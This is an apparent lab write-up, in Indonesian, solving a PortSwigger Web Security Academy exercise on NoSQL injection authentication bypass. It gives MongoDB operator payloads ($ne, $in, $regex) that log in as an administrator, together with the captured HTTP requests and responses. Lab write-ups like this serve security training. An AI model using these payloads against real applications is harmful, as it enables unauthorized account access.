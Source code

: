 # NoSQL Injection Lab – Authentication Bypass

## Lab Description

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ae988849-49c1-4d58-a786-6d008dc8fd0c)

---

## Overview

Database **NoSQL** seperti MongoDB menggunakan operator query untuk memfilter data. Contoh operator:

* `$where` – Memilih dokumen yang sesuai dengan ekspresi JavaScript.
* `$ne` – Memilih semua nilai yang tidak sama dengan nilai tertentu.
* `$in` – Memilih semua nilai yang terdapat dalam sebuah array.
* `$regex` – Memilih dokumen dengan nilai yang cocok dengan pola regex tertentu.

Pada aplikasi yang rentan, request login dikirim dalam format JSON:

```json
{"username":"wiener","password":"peter"}
```

Dengan memanfaatkan operator, payload dapat dimodifikasi. Contoh:

```json
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

Query ini akan mengembalikan semua data user yang username dan password-nya tidak sama dengan "invalid", sehingga login dapat dilewati.

Untuk menargetkan akun tertentu, misalnya admin:

```json
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

---

## Solution

Ketika login menggunakan user wiener, request yang dikirim adalah:

```http
POST /login HTTP/1.1
Host: 0a2e004e0498675c8294e27d00550012.web-security-academy.net
Cookie: session=FidptxGNO2o5A1gT6hVGVo0ahawPmQaa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2e004e0498675c8294e27d00550012.web-security-academy.net/login
Content-Type: application/json
Content-Length: 40
Origin: https://0a2e004e0498675c8294e27d00550012.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"wiener","password":"peter"}
```

Jika menggunakan payload berikut:

```json
{"username":{"$in":"administrator"},"password":{"$ne":""}}
```

maka login gagal, karena username admin bukan `administrator` melainkan string acak seperti `admin@fra12`.

Untuk mengatasi hal ini, digunakan operator **regex** agar dapat menangkap semua username yang diawali dengan kata *admin*:

```json
{"username":{"$regex":"admin*"},"password":{"$ne":""}}
```

Payload di atas akan memilih semua user dengan username yang diawali *admin* dan password yang tidak kosong.

Hasil response menunjukkan bahwa admin memiliki username `adminsmto9bvx`:

```http
HTTP/2 302 Found
Location: /my-account?id=adminsmto9bvx
Set-Cookie: session=fGElqIm2RxpmcGKeA1faciz8HjHYRQ8G; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Ketika dibuka di browser, terlihat bahwa login berhasil sebagai admin.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/471abd07-405b-4a6f-b76e-9513a383329b)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9c6bfc75-9c52-4764-b8ba-6ae626a50d97)
